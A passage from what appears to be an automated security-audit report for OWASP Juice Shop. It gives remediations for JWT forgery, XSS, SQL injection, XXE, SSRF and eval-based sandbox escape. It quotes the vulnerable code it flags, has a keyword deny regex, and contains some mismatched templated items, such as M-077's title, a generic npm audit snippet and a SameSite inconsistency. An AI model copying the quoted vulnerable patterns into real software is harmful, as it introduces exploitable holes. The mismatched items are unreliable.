1. Upgrade `express-jwt` to 7.x or later (the 0.1.3 version used here predates the `algorithms` enforcement API) and `jsonwebtoken` to 9.x.
2. Pass `algorithms: ['RS256']` in the `expressJwt(...)` options object so the middleware rejects tokens with any other `alg` value.
3. Add an integration test that sends a JWT with `alg: 'none'` and asserts a `401` response.

```javascript
// lib/insecurity.ts — after upgrading express-jwt to ^7
export const isAuthorized = () =>
  expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-057"></a>
#### M-057 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:**

1. Remove the `privateKey` string literal from `lib/insecurity.ts`; replace with `process.env.JWT_PRIVATE_KEY` (PEM string) or a path loaded via `fs.readFileSync` from a path passed in the environment.
2. Rotate the key immediately: generate a new RSA-2048 key pair (`openssl genrsa 2048`), distribute the public key to all verifiers, and invalidate all outstanding tokens by restarting with a new key.
3. Store the new key in a secrets manager (AWS Secrets Manager, HashiCorp Vault) or at minimum in a `.env` file excluded from version control.
4. Add a startup assertion that fails fast if `JWT_PRIVATE_KEY` is missing or shorter than 1800 bytes.

```javascript
// lib/insecurity.ts
const privateKey = process.env.JWT_PRIVATE_KEY
  ?? (() => { throw new Error('JWT_PRIVATE_KEY env var is required') })()
export const authorize = (user = {}) =>
  jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
```

**Reference:** CWE-798

---

<a id="m-058"></a>
#### M-058 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-014](#f-014) — Stored Cross-Site Scripting (`administration.component.ts:78`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `frontend/src/app/administration/administration.component.ts:78`

**How:**

1. Remove the `bypassSecurityTrustHtml` wrapper at `administration.component.ts:78`; assign the raw string to `feedback.comment` directly.
2. Update the template to use `{{ feedback.comment }}` (text interpolation) instead of `[innerHTML]`.
3. Sanitize feedback comments server-side on submission using an allowlist approach (strip all HTML tags, or permit a narrow Markdown subset rendered by a safe Markdown library).

```javascript
// WRONG (current):
feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)

// CORRECT:
// component.ts — no sanitizer call needed
// template.html:
// <span>{{ feedback.comment }}</span>
```

**Reference:** CWE-79

---

<a id="m-059"></a>
#### M-059 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-015](#f-015) — Stored Cross-Site Scripting (`search-result.component.ts:132`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:132`

**How:**

1. Remove the `trustProductDescription()` call from `ngAfterViewInit` in `search-result.component.ts` and delete the `bypassSecurityTrustHtml` wrapper at line 132.
2. Use Angular's default binding (`{{ product.description }}`) or `[innerText]` binding, which HTML-encodes by default.
3. If rich text is genuinely required, sanitize descriptions server-side with a strict allowlist parser (e.g. `DOMPurify` on the backend) before storing, and validate on retrieval.
4. Set a restrictive Content Security Policy that disallows `unsafe-inline` scripts to contain XSS impact even if a bypass is found.

```javascript
// WRONG (current trustProductDescription):
tableData[i].description = this.sanitizer.bypassSecurityTrustHtml(tableData[i].description)

// CORRECT — let Angular escape the string:
// In template: <td>{{ entry.description }}</td>
// No sanitizer call needed; Angular escapes by default.
```

**Reference:** CWE-79

---

<a id="m-060"></a>
#### M-060 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-016](#f-016) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:170`

**How:**

1. Replace `this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)` at line 170 with `this.searchValue = queryParam` (plain string assignment).
2. Change the template binding from `[innerHTML]="searchValue"` to `{{ searchValue }}` or `[textContent]="searchValue"` so Angular applies its default context-aware escaping.
3. Validate/strip HTML tags from `queryParam` before use in any DOM context.

```javascript
// WRONG (current):
this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam)

// CORRECT:
this.searchValue = queryParam // plain string; template uses {{ searchValue }}
```

**Reference:** CWE-79

---

<a id="m-061"></a>
#### M-061 — Use parameterized database queries

**Addresses:**

- 🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:**

1. Replace the raw `models.sequelize.query()` at `routes/search.ts:23` with a Sequelize `Product.findAll({ where: { [Op.or]: [{ name: { [Op.like]: `%\${criteria}%` } }, { description: { [Op.like]: `%\${criteria}%` } }], deletedAt: null } })` using the `Op` operators, which bind values safely.
2. Verify the replacement query uses Sequelize's internal binding (double-dollar bind params or `replacements: { criteria }`) - do not use template-literal interpolation even inside Sequelize's raw query helper.

```javascript
// routes/search.ts — safe replacement
import { Op } from 'sequelize'
const products = await ProductModel.findAll({
  where: {
    [Op.and]: [
      { deletedAt: null },
      { [Op.or]: [
        { name: { [Op.like]: `%${criteria}%` } },
        { description: { [Op.like]: `%${criteria}%` } }
      ]}
    ]
  },
  order: [['name', 'ASC']]
})
```

**Reference:** CWE-89

---

<a id="m-062"></a>
#### M-062 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🔴 [F-018](#f-018) — XML External Entity Expansion (`routes/fileUpload.ts:83`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:**

1. Change the `parseXml` call at `routes/fileUpload.ts:83` to `libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })` - or omit `noent` entirely since the default is false.
2. Evaluate whether the B2B upload endpoint should be deprecated entirely; if retained, enforce authentication (see file-upload-service-001) before parsing.
3. Consider replacing libxmljs2 with a safer alternative such as fast-xml-parser configured with `allowExternalEntities: false`.

```javascript
// routes/fileUpload.ts:83 — BEFORE
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })',
  sandbox, { timeout: 2000 }
)

// AFTER
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })',
  sandbox, { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-063"></a>
#### M-063 — Validate and allowlist outbound request targets

**Addresses:**

- 🔴 [F-019](#f-019) — Unfiltered SSRF (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:24`

**How:**

1. Parse the URL before calling `fetch()` and reject any hostname that resolves to RFC-1918 or loopback addresses (127.0.0.0/8, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, ::1, 169.254.0.0/16).
2. Implement an allowlist of permitted image CDN hostnames, or at minimum enforce that the scheme is HTTPS and the hostname passes a DNS lookup that does not return a private address.
3. Set a redirect follow limit of 0 (`redirect: 'manual'`) on the `fetch()` call to prevent DNS-rebinding or open-redirect chaining.
4. Consider accepting only pre-validated image URLs from a signed token issued by the server rather than arbitrary user input.

```javascript
import { isPrivateIP } from 'private-ip'
import { URL } from 'url'

// Before calling fetch:
const parsed = new URL(url)
const hostname = parsed.hostname
if (isPrivateIP(hostname) || hostname === 'localhost') {
  res.status(400).json({ error: 'URL not allowed' })
  return
}
const response = await fetch(url, { redirect: 'manual' })
```

**Reference:** CWE-918

---

<a id="m-064"></a>
#### M-064 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-020](#f-020) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** High · **File:** `routes/b2bOrder.ts:23`

**How:**

1. Remove the `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` block entirely from `routes/b2bOrder.ts`. The `orderLinesData` field should be a structured JSON array (e.g. `[{sku, qty, unitPrice}]`), not an executable expression.
2. Parse `orderLinesData` using a strict JSON schema validator such as `zod` or `ajv`. Reject any value that is not a JSON array of order-line objects with bounded field types and lengths.
3. If dynamic expression evaluation is genuinely required, replace `notevil` with a true sandboxed subprocess (e.g. `Node.js` `worker_threads` with a separate V8 isolate, or a containerized sidecar) that has no access to the parent process object.
4. Upgrade `notevil` to the latest version and review the changelog for constructor-escape patches, or replace with a maintained sandbox library.

```typescript
import { z } from 'zod'

const OrderLineSchema = z.array(z.object({
  sku: z.string().max(64),
  qty: z.number().int().positive().max(10000),
  unitPrice: z.number().positive()
})).max(200)

// In handler — replace vm.runInContext block:
const parsed = OrderLineSchema.safeParse(JSON.parse(body.orderLinesData))
if (!parsed.success) {
  return res.status(400).json({ error: 'Invalid orderLinesData' })
}
```

**Reference:** CWE-94

---

<a id="m-065"></a>
#### M-065 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-021](#f-021) — Server-Side Template Injection (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** High · **File:** `routes/userProfile.ts:62`

**How:**

1. Remove the `eval(code)` block at lines 56-65 entirely; replace with HTML entity encoding of the username before template substitution (`entities.encode(username)`).
2. Replace string-replacement template building with `pug.compile(template)` receiving only trusted, escaped variables - never raw user input.
3. Validate usernames at update time: reject any username containing `#{`, `<`, `>`, or other template metacharacters.
4. Remove `'unsafe-eval'` from the `script-src` Content-Security-Policy header at line 88.

```javascript
// routes/userProfile.ts — safe username handling
const safeUsername = entities.encode(user.username ?? '')
template = template.replace(/_username_/g, safeUsername)
```

**Reference:** CWE-94

---

### P2 — This Sprint

<a id="m-049"></a>
#### M-049 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage (`request.interceptor.ts:13`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/Services/request.interceptor.ts:13`

**How:**

1. Introduce a Backend-for-Frontend (BFF) session endpoint: the backend issues the JWT as a `Set-Cookie: token=...; HttpOnly; Secure; SameSite=Strict` header rather than returning it in the response body.
2. Remove `localStorage.setItem('token', ...)` from `oauth.component.ts:51` and any login handler.
3. Update `request.interceptor.ts` to remove the `Authorization` header injection - the browser sends the cookie automatically, so no client-side token handling is needed.
4. Add CSRF protection (SameSite=Strict or a CSRF token) to complement cookie-based session management.

```typescript
// Move the JWT out of localStorage into an httpOnly cookie.
res.cookie('session', token, {
  httpOnly: true, secure: true, sameSite: 'lax', maxAge: 3600_000
})
```

**Verification:** Open browser DevTools, run `localStorage.getItem('token')` and confirm `null`.

**Reference:** CWE-922

---

<a id="m-050"></a>
#### M-050 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-004](#f-004) — Systemic Missing permissions Block Across GitHub Actions Workflows (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed

---

<a id="m-051"></a>
#### M-051 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🟠 [F-005](#f-005) — Unauthenticated Sensitive REST Routes (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-066"></a>
#### M-066 — Add anti-CSRF protection to state-changing requests

**Addresses:**

- 🟠 [F-022](#f-022) — Missing OAuth State Parameter Enables CSRF on Authorization Callback (`login.component.ts:134`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/login/login.component.ts:134`

**How:**

1. Before redirecting, generate a random state value: `const state = crypto.randomUUID()` and store it in `sessionStorage.setItem('oauth_state', state)`.
2. Append `&state=${encodeURIComponent(state)}` to the authorization URL in `login.component.ts:134`.
3. In `oauth.component.ts`, after parsing the redirect URL params, verify that the returned `state` matches `sessionStorage.getItem('oauth_state')` before processing the token.

```javascript
// In login.component.ts googleLogin():
const state = crypto.randomUUID()
sessionStorage.setItem('oauth_state', state)
window.location.replace(`${oauthProviderUrl}?client_id=${clientId}&response_type=code&state=${state}&scope=email&redirect_uri=${redirectUri}`)

// In oauth.component.ts ngOnInit():
const params = this.parseRedirectUrlParams()
if (params.state !== sessionStorage.getItem('oauth_state')) {
  this.invalidateSession(new Error('State mismatch'))
  return
}
```

**Reference:** CWE-352

---

<a id="m-067"></a>
#### M-067 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🟠 [F-023](#f-023) — Stored Cross-Site Scripting (`last-login-ip.component.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:**

1. Replace line 39 with `this.lastLoginIp = payload.data.lastLoginIp` (plain string assignment).
2. Update the template to use `{{ lastLoginIp }}` text interpolation instead of `[innerHTML]`.
3. On the backend, validate the last-login IP is a well-formed IPv4/IPv6 address before storing it in the JWT claim - reject any value containing angle brackets or HTML characters.

```javascript
// WRONG (current):
this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)

// CORRECT:
this.lastLoginIp = payload.data.lastLoginIp  // template: {{ lastLoginIp }}
```

**Reference:** CWE-79

---

<a id="m-068"></a>
#### M-068 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🟠 [F-024](#f-024) — Stored Cross-Site Scripting (`track-result.component.ts:48`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/track-result/track-result.component.ts:48`

**How:**

1. Replace line 48 with `this.results.orderNo = results.data[0].orderId` (plain string).
2. Wrap the value in `<code>` in the HTML template using static markup: `<code>{{ results.orderNo }}</code>`.
3. Validate the `orderId` format server-side (e.g. alphanumeric + dash only) before storing and before returning it in the tracking API response.

```javascript
// WRONG (current):
this.results.orderNo = this.sanitizer.bypassSecurityTrustHtml(`<code>${results.data[0].orderId}</code>`)

// CORRECT — static markup + text binding:
// component.ts:
this.results.orderNo = results.data[0].orderId
// template.html:
// <code>{{ results.orderNo }}</code>
```

**Reference:** CWE-79

---

<a id="m-069"></a>
#### M-069 — Validate orderLinesData type and length before passing to the eval path

**Addresses:**

- 🟠 [F-025](#f-025) — Missing Input Validation on orderLinesData Before Eval (`routes/b2bOrder.ts:19`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/b2bOrder.ts:19`

**How:**

1. Add a type guard before the eval block: `if (typeof orderLinesData !== 'string' || orderLinesData.length > 4096) return res.status(400).json({ error: 'Invalid orderLinesData' })`.
2. Reject payloads containing `constructor`, `prototype`, `__proto__`, or `process` keywords before evaluation as a defense-in-depth measure.
3. Prefer replacing the eval entirely with schema-validated JSON parsing (see b2b-api-001).

```typescript
const orderLinesData = body.orderLinesData || ''
if (typeof orderLinesData !== 'string' || orderLinesData.length > 4096) {
  return res.status(400).json({ error: 'Invalid orderLinesData format' })
}
// deny dangerous identifier patterns
if (/constructor|prototype|__proto__|process|require/.test(orderLinesData)) {
  return res.status(400).json({ error: 'Disallowed expression' })
}
```

**Reference:** CWE-20

---

<a id="m-070"></a>
#### M-070 — Use parameterized database queries

**Addresses:**

- 🟠 [F-026](#f-026) — NoSQL / ORM Injection (`routes/recycles.ts:14`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/recycles.ts:14`

**How:**

1. Replace `JSON.parse(req.params.id)` with `parseInt(req.params.id, 10)` and validate it is a positive finite integer before use.
2. Add an ownership constraint: `where: { id: parsedId, UserId: req.user.data.id }` so a user can only retrieve their own recycling items.
3. Disable Sequelize operator aliases globally in `models/index.ts` by adding `operatorsAliases: false` to the Sequelize constructor options (or use `Operators.lt` explicit imports).

```javascript
// routes/recycles.ts — safe replacement
const id = parseInt(req.params.id, 10)
if (!Number.isFinite(id) || id < 1) return res.status(400).send('Invalid id')
const recycles = await RecycleModel.findAll({
  where: { id, UserId: req.user?.data?.id }
})
```

**Reference:** CWE-943

---

<a id="m-071"></a>
#### M-071 — Replace extension-based file type check with magic-byte validation using fileType.fromBuffer

**Addresses:**

- 🟠 [F-027](#f-027) — Extension-Only File Type Check Permits MIME Confusion Upload (`routes/fileUpload.ts:68`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:68`

**How:**

1. Import the `file-type` package (already a dependency, used in `routes/profileImageFileUpload.ts`) into `routes/fileUpload.ts`.
2. In `checkFileType`, call `await fileType.fromBuffer(file.buffer)` and validate the returned MIME against the allowlist instead of parsing the filename extension.
3. Retain the extension check as a secondary signal but do not use it as the sole gate.

```javascript
import fileType from 'file-type'

async function checkFileType (req: Request, res: Response, next: NextFunction) {
  const file = req.file
  if (!file) return next()
  const detected = await fileType.fromBuffer(file.buffer)
  const allowed = ['application/pdf', 'text/xml', 'application/xml',
                   'application/zip', 'text/yaml']
  if (!detected || !allowed.includes(detected.mime)) {
    return res.status(415).json({ error: 'Unsupported file type' })
  }
  next()
}
```

**Reference:** CWE-434

---

<a id="m-072"></a>
#### M-072 — Add security audit logging

**Addresses:**

- 🟠 [F-028](#f-028) — Missing Security Audit Log for Authentication and Data Mutation Events (`models/index.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/index.ts:39`

**How:**

1. Add a structured audit logger (e.g. `winston` with a JSON transport) that records actor (`userId`, `email`), action (`login_success`, `login_failure`, `data_export`), resource, timestamp, and source IP.
2. Emit audit events in `routes/login.ts` for every authentication attempt (success and failure) and from any route that returns bulk user data.
3. Write audit records to an append-only sink (append-mode file, or a write-once log table) that the application cannot delete.
4. Re-enable or replace Sequelize logging for security-relevant queries (at minimum authentication and admin queries) even if general query logging stays off.

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** A failed admin probe leaves an `authz.deny` line in the central log within 1 s.

**Reference:** CWE-778

---

<a id="m-073"></a>
#### M-073 — Remove attacker-controlled X-Forwarded-For from rate-limit key; rely on socket IP or right-most trusted proxy IP

**Addresses:**

- 🟠 [F-029](#f-029) — Rate-Limit Bypass (`server.ts:346`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:346`

**How:**

1. Remove the custom `keyGenerator` from the `rateLimit()` call and allow `express-rate-limit` to use its default key (real socket IP).
2. If the app sits behind a trusted reverse proxy, configure `app.set('trust proxy', 1)` (one hop) and omit the custom `keyGenerator` so `express-rate-limit` reads `req.ip` which the framework already normalizes to the rightmost untrusted IP.
3. Never pass `headers['X-Forwarded-For']` directly as a rate-limit key - always parse it and take the rightmost untrustworthy segment.

```javascript
// server.ts — remove keyGenerator, let express-rate-limit use req.ip
app.use('/rest/user/reset-password', rateLimit({
  windowMs: 5 * 60 * 1000,
  max: 100
}))
```

**Reference:** CWE-348

---

<a id="m-074"></a>
#### M-074 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-030](#f-030) — Uses --unsafe-perm npm install flag — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user

---

<a id="m-075"></a>
#### M-075 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/codeql-analysis.yml:23`

**How:** Pin every third-party action to a full 40-char commit SHA

---

<a id="m-076"></a>
#### M-076 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest>

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-077"></a>
#### M-077 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-033](#f-033) — On absent from repository (`package-lock.json:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `package-lock.json:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-078"></a>
#### M-078 — Stop storing sensitive data in cleartext

**Addresses:**

- 🟠 [F-034](#f-034) — Unencrypted SQLite Database at Rest (`models/index.ts:38`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `models/index.ts:38`

**How:**

1. Replace `better-sqlite3` with `@journeyapps/sqlcipher` and pass an encryption key via `dialectOptions: { key: process.env.DB_ENCRYPTION_KEY }`.
2. Alternatively, migrate to PostgreSQL or MySQL with full-disk encryption for the data volume at the infrastructure layer.
3. Store the encryption key in a secrets manager (AWS Secrets Manager, HashiCorp Vault) - never in source code or the container image.
4. Add a defence-in-depth control: set container filesystem permissions so only UID 65532 can read `data/juiceshop.sqlite`.

**Reference:** CWE-312

---

<a id="m-079"></a>
#### M-079 — Restrict access to the ftp/ directory behind authentication or remove sensitive files from the publicly served path

**Addresses:**

- 🟠 [F-035](#f-035) — Sensitive Files Publicly Served (`ftp/acquisitions.md:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `ftp/acquisitions.md:1`

**How:**

1. Move `acquisitions.md`, `incident-support.kdbx`, and any other non-public files out of `ftp/` or restrict the serve-index route with authentication middleware.
2. If the public FTP directory is intentional for the application, add an explicit allowlist of downloadable files and return 403 for anything not on the list.
3. Rotate any credentials that may be stored in `incident-support.kdbx` since the file is publicly accessible.

**Reference:** CWE-538

---

<a id="m-080"></a>
#### M-080 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-036](#f-036) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:**

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` (using the `bcryptjs` or `bcrypt` package).
2. Add a migration to re-hash existing passwords on next login: store the new bcrypt hash when the user successfully authenticates with the `MD5` hash for the last time.
3. Update the login query to use a comparison function: `bcrypt.compare(req.body.password, storedHash)` - this also removes the need for the raw SQL query at `routes/login.ts:34` since the hash comparison must happen in application code.

```javascript
// lib/insecurity.ts — replacement
import bcrypt from 'bcryptjs'
export const hash = async (data: string): Promise<string> => bcrypt.hash(data, 12)
export const verifyPassword = async (plain: string, hashed: string): Promise<boolean> => bcrypt.compare(plain, hashed)
```

**Reference:** CWE-916

---

<a id="m-081"></a>
#### M-081 — Return generic error messages to clients

**Addresses:**

- 🟠 [F-037](#f-037) — XML Parse Error Leaks Up to 400 Chars of Parsed Document in HTTP Response (`routes/fileUpload.ts:87`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:87`

**How:**

1. Replace the error message that includes `xmlString` with a generic message like `'B2B complaints via XML are deprecated'` and log the full `xmlString` to the server-side logger only.
2. Disable external entity resolution by removing `noent: true` from the `libxml.parseXml()` options, using `{ noent: false, nonet: true }` to prevent SSRF and file read via XXE.

```javascript
// routes/fileUpload.ts — strip content from client response
res.status(410)
next(new Error('B2B customer complaints via file upload have been deprecated'))
// log internally:
logger.warn({ xmlSnippet: utils.trunc(xmlString, 400) }, 'XXE upload attempt')
```

**Reference:** CWE-209

---

<a id="m-082"></a>
#### M-082 — Require authentication and admin role check before /support/logs and /encryptionkeys routes

**Addresses:**

- 🟠 [F-038](#f-038) — Unauthenticated Directory Listing of `/support/logs` and `/encryptionkeys` (`server.ts:281`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:281`

**How:**

1. Add `security.isAuthorized()` and an admin-role check (e.g. a middleware asserting `req.user.role === 'admin'`) before both `serveIndex` and `serveLogFiles()`/`serveKeyFiles()` registrations.
2. Consider removing public serving of `encryptionkeys/` entirely - the JWT public key can be exposed at a well-known JWKS endpoint (`/.well-known/jwks.json`) without listing the directory.

```javascript
// server.ts
app.use('/support/logs',
  security.isAuthorized(),
  requireAdmin(),   // custom: checks decoded.data.role === 'admin'
  serveIndexMiddleware,
  serveIndex('logs', { icons: true, view: 'details' })
)
```

**Reference:** CWE-548

---

<a id="m-083"></a>
#### M-083 — Offload CPU-bound work and bound execution time

**Addresses:**

- 🟠 [F-039](#f-039) — Event-Loop Exhaustion (`routes/b2bOrder.ts:23`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:**

1. Apply `express-rate-limit` middleware specifically to `/b2b/v2` or `/b2b/v2/orders` in `server.ts` with a low window (e.g. `windowMs: 60_000, max: 10`) to prevent burst abuse.
2. Move `vm.runInContext` execution to a `worker_threads` Worker so the eval timeout does not block the main event loop. The worker can be terminated via `worker.terminate()` after the timeout, preserving event-loop availability for other requests.
3. As a short-term mitigation, reduce the timeout from 2000 ms to 200 ms to reduce per-request blocking window.

```typescript
// server.ts — add before b2b route registration
app.use('/b2b/v2/orders', rateLimit({
  windowMs: 60 * 1000,
  max: 10,
  standardHeaders: true,
  legacyHeaders: false
}))
```

**Reference:** CWE-400

---

<a id="m-084"></a>
#### M-084 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-040](#f-040) — XML Parsing DoS (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:**

1. Set `noent: false` in the `parseXml` call at `routes/fileUpload.ts:83` (same fix as file-upload-service-002).
2. Add an upload file-size limit specific to XML uploads (the current 200KB multer limit is shared with other types; a lower XML-specific limit reduces surface).
3. Consider rejecting XML uploads entirely if the B2B interface is truly deprecated, as indicated by the 410 status code and deprecation messages.

**Reference:** CWE-400

---

<a id="m-085"></a>
#### M-085 — Remove client-side role claim trust from Angular guards and enforce authorization server-side on every API call

**Addresses:**

- 🟠 [F-041](#f-041) — Client-Side-Only Role Check in Angular Route Guards (`app.guard.ts:53`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:53`

**How:**

1. Replace the `jwtDecode` call in `app.guard.ts` with a server-side session-check call (e.g. `GET /api/user/whoami`) whose response includes the verified role - do not trust the JWT payload decoded client-side without signature verification.
2. Ensure the backend `/api/administration*` endpoint validates the `Authorization` JWT with `jwt.verify(token, secret, { algorithms: ['RS256'] })` and returns 403 for non-admin tokens.
3. Treat the Angular route guard as a UX convenience only, not a security boundary.

**Reference:** CWE-602

---

<a id="m-086"></a>
#### M-086 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-042](#f-042) — IDOR Missing Ownership Check on Recycles Endpoint (`routes/recycles.ts:14`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/recycles.ts:14`

**How:**

1. Add `UserId: req.user.data.id` to the `where` clause in `routes/recycles.ts:14` so users can only retrieve their own records.
2. Coerce `req.params.id` to an integer (see data-layer-004) to eliminate the ORM injection vector simultaneously.
3. Add an authorisation middleware that verifies `req.user` is present before the handler executes.

```javascript
// routes/recycles.ts — safe replacement
const id = parseInt(req.params.id, 10)
if (!Number.isFinite(id)) return res.status(400).send('Invalid id')
const recycles = await RecycleModel.findAll({
  where: { id, UserId: req.user.data.id }
})
```

**Reference:** CWE-639

---

<a id="m-087"></a>
#### M-087 — Constrain file paths to a safe base directory

**Addresses:**

- 🟠 [F-043](#f-043) — Zip Slip Path Traversal in Complaint File Upload Handler (`routes/fileUpload.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:44`

**How:**

1. Replace `absolutePath.includes(path.resolve('.'))` with `absolutePath.startsWith(path.resolve('uploads/complaints') + path.sep)` to enforce that all entries stay within the intended target directory.
2. Alternatively use a library like `unzipper` with path sanitization or the `adm-zip` `extractEntryTo` method with `overwrite=false` and explicit entry validation.

```javascript
// routes/fileUpload.ts
const targetDir = path.resolve('uploads/complaints') + path.sep
if (absolutePath.startsWith(targetDir)) {
  entry.pipe(fs.createWriteStream(absolutePath))
} else {
  entry.autodrain()
}
```

**Reference:** CWE-22

---

<a id="m-088"></a>
#### M-088 — Restore authorization middleware on PUT /api/Products/:id and require admin role for product modification

**Addresses:**

- 🟠 [F-044](#f-044) — Unauthenticated Product Update (`server.ts:369`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:369`

**How:**

1. Uncomment `app.put('/api/Products/:id', security.isAuthorized())` and add a role-check middleware asserting `decoded.data.role === 'admin'` before the finale auto-route handles the request.
2. Add an integration test asserting that an unauthenticated PUT to `/api/Products/1` returns `401`.

```javascript
// server.ts
app.put('/api/Products/:id', security.isAuthorized(), requireAdmin())
```

**Reference:** CWE-284

---

<a id="m-089"></a>
#### M-089 — Add isAuthorized JWT guard to POST /file-upload

**Addresses:**

- 🟠 [F-045](#f-045) — Missing Authentication on File Upload Endpoint (`routes/fileUpload.ts:19`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:19`

**How:**

